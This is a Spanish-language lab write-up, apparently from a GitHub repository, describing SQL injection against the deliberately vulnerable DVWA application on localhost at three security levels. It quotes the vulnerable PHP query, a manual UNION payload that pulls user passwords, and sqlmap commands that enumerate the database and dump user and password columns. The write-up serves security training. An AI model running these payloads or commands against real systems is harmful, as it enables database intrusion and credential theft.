 # SQLi

Se ha utilizado la herramienta SQLmap para realizar el ataque de inyección SQL y Burp Suite para interceptar
el tráfico entre el cliente y el servidor.

## Bajo
En este nivel, la vulnerabilidad se encuentra claramente en la siguiente línea, que
permite introducir entradas maliciosas manipulando la cadena de consulta SQL:

```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"
```

En este nivel se intentó inicialmente introducir entradas maliciosas manualmente.
La siguiente entrada permite obtener la contraseña (aún encriptada):
```
' UNION SELECT first_name,password FROM users;-- -&Submit=Submit
```

El objetivo de la cadena maliciosa es doble:

- En primer lugar, se escapa la consulta inicial y se fusiona con otra consulta que permite obtener la contraseña de todos los usuarios. Cabe destacar que sólo es posible incluir 2 columnas, ya que en caso contrario la petición HTTP falla.
- En segundo lugar, se debe escapar la consulta SQL, comentando el resto de la cadena, para así poder realizar la petición.

También se utilizó la herramienta SQLMap para obtener las contraseñas de manera automática y también para descifrarlas, ya que se observa que están encriptadas mediante MD5. A continuación se describe la metodología empleada:

- Se ha capturado la cookie de sesión al hacer una petición a través de la página web. En este apartado se llevó a cabo inspeccionando el tráfico con el navegador, pero es posible utilizar herramientas como Burpsuite o Live HTTP headers para interceptar y manipular el tráfico.
- Después, se ha construido el comando que lanza SQLMap e inicia las pruebas de inyección SQL:
    - SQLMap requiere algún parámetro **inyectable** (por ejemplo, en una query, un formulario o una cookie, entre otros) para poder realizar las pruebas de inyección SQL.

    - Se incluye también la cookie interceptada para realizar la petición con una sesión activa.

- Seguidamente, se inspecciona de manera gradual la estructura de la base de datos, comenzando por obtener los nombres de los esquemas, y profundizando en ellos hasta llegar al nivel de las propias tablas:

    - A nivel de **esquemas**:
        ```bash
        sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch --dbs
        ```
        ![dbs](assets/sqli_dbs.png)
    - A **nivel relacional** en el esquema `dvwa`:
        ```bash
        sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa --tables
        ```
        ![tabs](assets/sqli_tabs.png)
    - A nivel de **tabla** en la entidad `users`:
        ```bash
        sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa -T users --columns
        ```
        ![cols](assets/sqli_cols.png)


- Finalmente, se obtiene el contenido de la tabla de usuarios con el siguiente comando, que vuelca las columnas seleccionadas (y se se desea se pueden desencriptar):

![dump](assets/sqli_dump.png)

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa -T users -C user,password --dump
```

## Medio
Ahora la petición se realiza mediante un formulario, por lo que SQLmap es una herramienta ideal en este apartado. 
Aún así, se podría hacer de manera manual con la misma consulta ligeramente transformada (hace uso de la función `mysql_real_escape_string()`, por lo que hay que reestructurarla manualmente), enviada a través del formulario por POST.

Se ha escogido la primera opción por simplicidad, ya que el comando necesario para realizar la inyección es muy similar. Sólo hay que añadir la petición mediante formulario por POST:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low"  --data "id=1&Submit=Submit" --batch --dbs
```

![med](assets/sqli_med.png)

Se puede evitar la fase de inspección de la base de datos, aunque si fuera necesario el procedimiento es análogo.

## Alto

En este nivel el identificador se introduce en la propia cookie. Además, el formulario se envía desde otra página distinta, por lo que es necesario incluir una url secundaria que sirve como punto de recepción de los resultados del ataque. La url secundaria será . Por lo demás, el comando es muy similar. 

En este apartado se ha usado además BurpSuite para interceptar el tráfico al lanzar una petición desde el formulario de la ventana emergente y así obtener la cookie necesaria. El procedimiento es análogo a los anteriores con el nuevo comando:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/session-input.php" --cookie "PHPSESSID=<session>; security=high" --data="id=1&Submit&Submit" --second-url "http://localhost/DVWA/vulnerabilities/sqli" --batch -D dvwa -T users -C user,password --dump
```

- El efecto de añadir la url secundaria es capturar la redirección para obtener los resultados de la inyección.
![redir](assets/sqli_redir_hi.png)

- El resultado es de nuevo la lista de usuarios con sus contraseñas:
![hi](assets/sqli_hi.png)